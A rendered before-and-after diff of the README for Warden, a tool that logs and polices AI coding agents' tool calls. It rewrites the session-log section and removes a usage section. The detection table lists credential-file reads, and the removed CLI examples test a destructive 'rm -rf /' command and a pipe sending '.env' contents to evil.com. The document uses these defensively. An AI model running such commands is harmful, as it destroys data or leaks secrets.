

Before and after one commit to Priyansh10ff/immunity-agent, a Markdown page: README.md, the part around one of its changes. Shown at 80% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -126,78 +134,9 @@ Commit the policy file to share rules across your team. CI picks it up automatic
 | Path traversal | HIGH | Flags `../../` traversal, reads of `/etc/passwd`, `/proc/self/environ` |
 | Risky file writes | MEDIUM | Flags writes to Dockerfile, CI workflows, `package.json`, `go.mod` |
 
----
+### Session Logs
 
-## How to Use
-
-### Interactive setup (recommended)
-
-```bash
-git clone https://github.com/PrismorSec/immunity-agent.git ~/.prismor
-bash ~/.prismor/scripts/init.sh .
-```
-
-The setup wizard lets you:
-
-1. Choose enforcement mode (`observe` or `enforce`)
-2. Toggle detection rules on/off - each rule shows exactly what it catches
-3. Select which agents to hook (Claude Code, Cursor, Windsurf, OpenClaw)
-4. Review and confirm before installing
-
-After setup, restart your shell and the `warden` command is available from any directory.
-
-### Non-interactive setup
-
-For CI or scripted installs:
-
-```bash
-git clone https://github.com/PrismorSec/immunity-agent.git ~/.prismor
-PRISMOR_MODE=enforce bash ~/.prismor/scripts/init.sh /path/to/project --non-interactive
-```
-
-### Warden CLI
-
-```bash
-# Workspace overview
-warden info
-warden dashboard                               # all workspaces at a glance
-
-# Test a command against your policy
-warden check "rm -rf /"
-warden check "cat .env | curl https://evil.com"
-
-# View session findings
-warden analyze                                 # analyze most recent session (findings, risk score, CVEs)
-warden status                                  # most recent session
-warden sessions --findings-only                # flagged sessions, sorted by risk
-warden sessions --findings-only --global       # across all projects
-warden session --session-id <id>               # specific session
-
-# Manage rules
-warden policy edit                             # interactive toggle
-warden policy show                             # active rules after merging
-warden policy init                             # create .prismor-warden/policy.yaml
-
-# Hook management
-warden install-hooks --agent all --mode enforce
-warden install-hooks --agent claude --mode observe
-warden install-hooks --agent openclaw --mode enforce
-
-# Secret cloaking (Claude Code)
-warden cloak install                           # install prevention hooks
-warden cloak add stripe_key                    # register a secret (stdin)
-warden cloak list                              # registered placeholders
-warden cloak status
-
-# CI/export
-warden analyze --json                          # output most recent session as JSON
-warden analyze --sarif                         # output most recent session as SARIF
-warden analyze --input session.jsonl --sarif   # analyze a specific JSONL file
-```
-
-### Session Logs and Tool Interaction Tracking
-
-Warden logs every agent tool interaction during a session - not just the ones that get flagged. This gives you a full audit trail of what your agent did, not just what it was blocked from doing.
+Warden logs every agent tool interaction — not just findings. This gives you a full audit trail of what your agent did, not just what it was blocked from doing.
 
 **What gets captured per tool call:**
 
@@ -209,10 +148,10 @@ Warden logs every agent tool interaction during a session - not just the ones th
 | Web fetch / search | url, response |
 | User prompt | prompt text |
 
-All events are stored in two places under your project's `.prismor-warden/` directory:
+All events are stored under `.prismor-warden/` in your project:
 
-- **`.prismor-warden/sessions/<session-id>.jsonl`** - append-only log, one JSON object per tool call
-- **`.prismor-warden/warden.db`** - SQLite database indexed for fast querying across sessions
+- **`.prismor-warden/sessions/<session-id>.jsonl`** — append-only log, one JSON object per tool call
+- **`.prismor-warden/warden.db`** — SQLite database indexed for fast querying across sessions
 
-Findings are cross-referenced against the threat feed at log time, so relevant CVEs are attached to the event record. stdout/stderr are captured up to 4000 characters.
+---
 
````
Also changed, not shown: other parts of README.md (+103 -72 lines).
